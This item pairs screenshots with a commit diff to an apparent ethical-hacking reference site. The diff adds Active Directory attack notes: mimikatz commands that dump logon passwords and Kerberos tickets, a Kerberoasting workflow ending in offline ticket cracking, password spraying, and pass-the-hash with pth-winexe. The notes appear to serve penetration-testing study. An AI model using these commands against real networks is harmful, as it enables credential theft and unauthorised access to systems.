

Before and after one commit to curious-attempt-bunny/ethical-hacking-reference-docs, a Sphinx documentation site: the page built from source/active_directory.md, in a window 1280 px wide and 1400 px high, scrolled down 1367 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update active_directory.md

````diff
--- a/source/active_directory.md
+++ b/source/active_directory.md
@@ -85,3 +85,41 @@ follow on (from target host):
 ```
 nslookup website.domain.name
 ```
+
+### TBD
+
+```
+mimikatz.exe
+privilege::debug
+sekurlsa::logonpasswords   # NTLM, SHA1 are needed for pre Windows 2003
+sekurlsa::tickets
+```
+
+### TBD
+
+```
+(PS) Add-Type -AssemblyName System.IdentityModel
+(PS) New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList '<SPN name>' # create SPN ticket
+(PS) klist
+```
+```
+mimikatz.exe
+kerberos::list /export # download SPN ticket
+```
+(transfer .kerbi file to kali for use with kerberoast apt package)
+```
+python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt <path_to_kirbi_file>
+```
+
+### Low & Slow Password Guessing
+
+* `net accounts # see lockout threshold + lockout observation window (which gives one free login attempt)`
+* `(PS) .\Spray-Passwords.ps1 -Pass <password> -Admin` (see https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1)
+
+### Pass The Hash
+
+* `pth-winexe -U <NTLM_hash> //hostip <cmd>` (see https://github.com/byt3bl33d3r/pth-toolkit)
+
+### Overpass the hash
+
+*
````
